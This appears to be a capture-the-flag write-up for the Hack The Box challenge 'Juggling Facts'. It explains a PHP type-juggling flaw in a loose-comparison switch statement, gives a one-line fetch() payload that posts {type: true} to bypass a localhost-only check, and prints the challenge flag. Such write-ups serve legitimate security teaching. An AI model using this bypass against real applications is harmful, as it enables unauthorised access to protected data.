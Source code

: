 # Juggling Facts

> An organization seems to possess knowledge of the true nature of pumpkins. Can you find out what they honestly know and uncover this centuries-long secret once and for all?

## Solution

When i press `Secret Facts` it shows : `Secrets can only be accessed by admin`

[![Screen-Shot-2022-10-28-at-2-47-04-PM.png](https://i.postimg.cc/yYp2bxkP/Screen-Shot-2022-10-28-at-2-47-04-PM.png)](https://postimg.cc/VdM7SY9r)

Since this challenge’s name is Juggling Facts, I’ll google php juggling.

Now, we can dig deeper in this exploit: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling).

[![a5.png](https://i.postimg.cc/NFXwcrLm/a5.png)](https://postimg.cc/SYmPLR6x)

It seems like `IndexController.php` is vulnerable:
```PHP
 if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }

        switch ($jsondata['type'])
        {
            case 'secrets':
                return $router->jsonify([
                    'facts' => $this->facts->get_facts('secrets')
                ]);
```

The first if statement is NOT vulnerable, as it’s using strict comparison (`===`, `!==`). So, we have to parse the type `POST` parameter.

However, the `switch` statement is vulnerable, According to official [PHP documentation](https://www.php.net/manual/en/control-structures.switch.php) switch/case does [loose comparision](php.net/manual/en/types.comparisons.php#types.comparisions-loose).
Since the case secrets is the first item, it can bypass the `REMOTE_ADDR`.

So the final payload to be sent as a POST reqeust to api:
```javascript
fetch('[IP]/api/getfacts', {method:'POST',headers:{'Content-Type':'application/json'}, body:JSON.stringify({type: true})});
```

We got the flag:
```
HTB{sw1tch_stat3m3nts_4r3_vuln3r4bl3!!!}
```